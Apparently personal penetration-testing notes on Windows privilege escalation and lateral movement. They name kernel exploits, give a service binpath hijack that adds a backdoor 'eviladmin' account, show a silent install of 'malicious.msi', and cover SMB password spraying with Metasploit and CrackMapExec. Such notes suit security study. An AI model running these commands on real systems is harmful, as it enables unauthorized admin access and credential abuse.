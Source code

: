 KiTrap0d
# Important Payloads
- `MS11-080` AfdJoinLeaf xp 2003 both 32 and 64 / MS12-042

```
python py installer module
python pyinsaller.py --onefile example.py
```

# Unrelated Notes

## Services
- Registry entries: `HKLM\SYSTEM\CurrentControlSet\Services`
- View service properties: `sc qc "Vulnerable Service"`
- Restarting: `sc stop "Vulnerable Service"`
- Restart PC: `shutdown /r /t 0`
- Change binary path: `sc config "Vulnerable Service" binpath= "net user eviladmin P4ssw0rd@ /add`

## MSI
- Installing MSI: `msiexec /quiet /qn /i malicious.msi`
```
/quiet = Suppress any messages to the user during installation
/qn = No GUI
/i = Regular (vs. administrative) installation
```


## Keep alive
When a service starts in Windows operating systems, it must communicate with the `Service Control Manager`. If it’s not, `Service Control Manager` will terminates the process.

# Using Credentials

## Password Spraying
- `auxiliary/scanner/smb/smb_login`
- Send the same credentials to all hosts listening on 445
    - `msf auxiliary(smb_login) > services -p 445 -R`
- Can do same with `CrackMapExec` for a subnet: https://github.com/byt3bl33d3r/CrackMapExec
- Can use following command to explore:
```
net use \\machine-name /user:username@domainname passwords
dir \\machine-name\c$
net use
```
- Can be detected by using `net session`
- Can terminate all session with `net use /delete *`
- Some commands, such as `net view` use the login user-name. .: use `runas`
```
runas /netonly /user:user@domainname "cmd.exe"
net view \\machine-name /all
```
- Verify it uses Kerberos by `klist`
